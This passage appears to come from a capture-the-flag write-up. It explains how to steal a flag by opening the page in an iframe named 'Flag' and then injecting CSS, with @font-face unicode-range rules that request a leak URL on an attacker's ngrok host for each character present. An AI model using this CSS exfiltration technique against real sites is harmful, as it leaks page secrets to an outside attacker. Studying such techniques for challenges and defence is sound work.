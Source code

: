 #### Step 1: Accessing the site with cookie

We want to use CSS injection to leak the flag. To do that, we need to somehow make `window.name === "Flag"` evaluate to true.

```javascript:flag.html
if (window.name === "Flag") { 
    const flagContainer = document.querySelector(".flag");    
    const flagChars = "{{ flag }}".split("");
    // Breaking the flag into pieces, because fragmented flags are harder to steal... right?
    flagChars.forEach(char => {
        const span = document.createElement("span");
        span.textContent = char; 
        flagContainer.appendChild(span);
    });
}
```
To achieve this, we have to open `http://local:4003/flag` using either `<iframe name='Flag'>` or `window.open(url, 'Flag')`. Normally, sending cross-origin cookies to an iframe or via `window.open` isn’t possible. However, in this challenge, sending cookies is possible because they are set using [setExtraHTTPHeaders](https://pptr.dev/api/puppeteer.page.setextrahttpheaders). This adds extra HTTP headers every time the Puppeteer browser makes a request.

```javascript
await page.setExtraHTTPHeaders({
    'Cookie': `access_token=${cookie}`
});
```

I'm not sure why, but this wasn’t possible if I used `window.open`. Using an `<iframe>` worked just fine.


#### Step 2: CSS Injection

[Reference: HackTricks - CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection#text-node-exfiltration-i-ligatures)

Next, we want to leak the content of the page using CSS. We can use `@font-face` along with `unicode-range` to accomplish this.

When you define an `@font-face` rule with a `unicode-range`, the font file is only requested if characters in that range actually appear on the page.

For example, if the CSS looks like:

```css
@font-face{
    font-family: 'T';
    src: url('https://xxx.ngrok.app/leak/A');
    unicode-range:U+0041
}
span {
    font-family: 'T';
}
```
The request to `https://xxx.ngrok.app/leak/A` only occurs if the letter `A` (U+0041) actually appears in a `<span>` element. Essentially, the browser loads that specific font resource only if the content matches the specified unicode range.
